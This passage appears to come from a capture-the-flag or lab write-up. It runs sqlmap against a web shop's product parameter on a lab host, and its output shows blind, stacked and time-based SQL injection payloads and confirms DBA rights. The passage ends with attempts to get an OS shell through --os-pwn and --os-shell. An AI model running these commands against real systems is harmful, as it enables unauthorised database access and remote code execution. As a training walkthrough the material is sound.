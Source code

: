 ```
---

 ... snip ...
```

Nothing interesting in the db. Since we know the web app uses the root user let’s check if we are DBA and try to get a shell using sqlmap.

```
$ sqlmap -r request.req --level 5 --risk 3 --is-dba --batch

 ... snip ..

URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 570 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: http://10.10.11.229:80/shop/index.php?page=product&id=
' OR NOT 5901=5901;
--2

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries
    Payload: http://10.10.11.229:80/shop/index.php?page=product&id=
';SELECT SLEEP(5);
--2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.11.229:80/shop/index.php?page=product&id=
' AND (SELECT 2458 FROM (SELECT(SLEEP(5)))dSTo);
--2
---
[09:29:40] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.54, PHP
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:29:40] [INFO] testing if current user is DBA
[09:29:40] [INFO] fetching current user
[09:29:40] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[09:29:40] [INFO] retrieved: root@localhost
current user is DBA: True
```

```
$ sqlmap -r productGet.req --level 5 --risk 3 --os-pwn
```

Doesn’t seem to work. Os shell?

```
$ sqlmap -r productGet.req --level 5 --risk 3 --os-shell
```
